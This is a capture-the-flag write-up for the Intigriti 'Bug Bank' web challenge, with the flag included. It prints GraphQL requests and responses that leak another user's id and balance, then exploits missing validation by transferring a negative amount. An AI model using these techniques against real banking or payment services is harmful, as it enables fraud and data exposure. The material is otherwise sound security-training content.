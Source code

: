 # Bug Bank [158 Solves]

## Description

> Welcome to BugBank, the world's premier banking application for trading bugs! In this new era, bugs are more valuable than gold, and we have built the ultimate platform for you to handle your buggy assets. Trade enough bugs and you have the chance to become a premium member. And in case you have any questions, do not hesitate to contact your personal assistant. Happy trading!
>
> Author: fhantke
>
> <https://bugbank.ctf.intigriti.io> || <https://bugbank2.ctf.intigriti.io>

No attachments.

## Flag

INTIGRITI{h3y_wh0_541d_y0u_c0uld_cl0bb3r_7h3_d0m}

## Solution

Looking at this web application, found the Upgrade feature.

![Bug_Bank_upgrade.png](img/Bug_Bank_upgrade.png)

I should upgrade to get the flag, but this requires to 10,000 bugs (amounts).

![Bug_Bank_home.png](img/Bug_Bank_home.png)

No bugs so I see if I can increase bugs to upgrade.

### Step1: Leak yourname__personal_support user's id by GraphQL transactions Query

Accessed `/home` URL path, the following request is sent.

```text
POST /graphql HTTP/2
Host: bugbank.ctf.intigriti.io
Content-Length: 371
Authorization: Bearer eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VyX2lkIjoiYTBmMDVhN2UtYTc0Yy00MGYwLTk5YTEtYTg5NjNmNWZlMjcxIn0.2yqwRVD8Cmpks-tRm02fg2gVePeluxAmMwi03SROBJQ
Content-Type: application/json

{"operationName":"transactions","variables":{},"query":"query transactions {\n  transactions {\n    success\n    errors\n    transactions {\n      id\n      sender {\n        name\n        __typename\n      }\n      recipient {\n        name\n        __typename\n      }\n      amount\n      description\n      timestamp\n      __typename\n    }\n    __typename\n  }\n}"}
```

Beautified GraphQL Query:

```graphql
query transactions {
  transactions {
    success
    errors
    transactions {
      id
      sender {
        name
        __typename
      }
      recipient {
        name
        __typename
      }
      amount
      description
      timestamp
      __typename
    }
    __typename
  }
}
```

append id field to sender and remove unnecessary fields:

```graphql
query transactions {
  transactions {
    transactions {
      sender {
        id
        name
        money
        __typename
      }
    }
  }
}
```

re-send request:

```text
POST /graphql HTTP/2
Host: bugbank.ctf.intigriti.io
Authorization: Bearer eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VyX2lkIjoiYTBmMDVhN2UtYTc0Yy00MGYwLTk5YTEtYTg5NjNmNWZlMjcxIn0.2yqwRVD8Cmpks-tRm02fg2gVePeluxAmMwi03SROBJQ
Content-Type: application/json
Content-Length: 147

{"operationname": "transactions","variables":{},"query":"query transactions {transactions {transactions {sender {id name money __typename}}}}"}
```

```text
HTTP/2 200 OK
Date: Mon, 20 Nov 2023 05:17:59 GMT
Content-Type: application/json
Content-Length: 169
Access-Control-Allow-Origin: *
Vary: Cookie
Strict-Transport-Security: max-age=15724800; includeSubDomains

{"data":{"transactions":{"transactions":[{"sender":{"__typename":"User","id":"5595cab6-3a55-477b-b77d-cfa6f3bf6623","money":47532,"name":"test02_personal_support"}}]}}}
```

Got personal_support id 5595cab6-3a55-477b-b77d-cfa6f3bf6623.
Additionally, personal_support user has 47532 money.

### Step2: Transfer Bugs to yourname_personal_support user with -10000 amount

Since there is no validation for the amount when transfer bugs, I can transfer a negative value.

![Bug_Bank_transfer.png](img/Bug_Bank_transfer.png)

![Bug_Bank_got_10000_bugs.png](img/Bug_Bank_got_10000_bugs.png)

### Step3: Upgrade

![Bug_Bank_flag.png](img/Bug_Bank_flag.png)

Got the flag.
